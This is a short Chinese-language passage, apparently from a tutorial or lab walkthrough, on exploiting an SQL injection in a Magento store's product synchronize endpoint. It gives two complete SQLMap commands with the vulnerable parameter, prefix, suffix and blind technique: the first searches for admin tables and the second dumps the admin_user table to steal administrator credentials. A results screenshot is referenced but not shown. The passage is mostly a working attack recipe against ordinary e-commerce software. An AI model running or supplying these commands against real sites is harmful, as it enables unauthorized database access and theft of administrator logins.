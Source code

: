 现在我们想从数据库中提取更多有趣的东西，比如管理员凭证。以下是所需的步骤:

1.  查找名称中带有' admin '的表:我们可以使用 SQLMap 来搜索名称中带有某些字符串的表。当点击一个时，它浏览并打印相关结果。在我们的例子中，明显的表名是“admin ”,下面是 SQLMap 可以为我们找到的内容:

```
sqli@magento:~$ ./sqlmap.py -u 'http://local.magento/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=?&ids[0][product_id][to]=' -p "ids[0][product_id][to]" --prefix=")))" --suffix=" -- -" --dbms=mysql --technique=B --ignore-code=400 --level=5 --risk=3 -o --search -T admin
```

结果:

![data extracted from database](img/77374e09d0835f55145880108433f4de.png)如果站点管理员仔细修改了默认表名，我们可以尝试不同的搜索字符串或使用–tables 枚举数据库中的所有表名。

2.  现在，让我们转储 **admin_user** 表并查看其内部:

```
sqli@magento:~$ ./sqlmap.py -u 'http://local.magento/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=?&ids[0][product_id][to]=' -p "ids[0][product_id][to]" --prefix=")))" --suffix=" -- -" --dbms=mysql --technique=B  --ignore-code=400 --level=5 --risk=3 -o --dump -D magento -T admin_user
```
